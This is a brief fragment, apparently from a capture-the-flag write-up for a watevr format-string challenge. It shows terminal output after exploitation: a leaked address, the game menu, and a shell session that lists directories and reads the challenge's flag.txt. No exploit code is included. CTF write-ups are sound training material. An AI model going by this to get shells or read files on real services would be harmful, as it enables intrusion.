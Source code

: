 After all the bytes that get printed for the fmt string:

```
                      f7f5f5c0
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
$ w
 20:39:59 up 2 days,  1:40,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cd /home/ctf
$ ls
flag.txt
service
$ cat flag.txt
watevr{i_G0Tta_f33ling_https://www.youtube.com/watch?v=uSD4vsh1zDA}
$  
```